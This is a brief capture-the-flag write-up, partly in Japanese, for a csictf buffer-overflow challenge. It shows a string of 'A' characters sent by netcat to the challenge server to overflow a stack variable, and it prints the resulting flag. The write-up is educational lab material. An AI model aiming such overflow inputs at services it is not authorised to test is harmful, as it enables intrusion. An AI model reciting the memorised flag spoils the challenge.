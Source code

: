 # pwn intended 0x1:Pwn:100pts
I really want to have some coffee!  
nc chall.csivit.com 30001  
[pwn-intended-0x1](pwn-intended-0x1)  

# Solution
BOF問だと思ったのではじめにncして適当にAを50ほど入力した。  
```bash
$ nc chall.csivit.com 30001
Please pour me some coffee:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Thanks!

Oh no, you spilled some coffee on the floor! Use the flag to clean it.
csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}
```
flagがでた。  
おそらくスタックの変数を壊す問題だったようだ。  
以下が想定解。  
```bash
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | nc chall.csivit.com 30001
Please pour me some coffee:

Thanks!

Oh no, you spilled some coffee on the floor! Use the flag to clean it.
csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}
```

## csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}
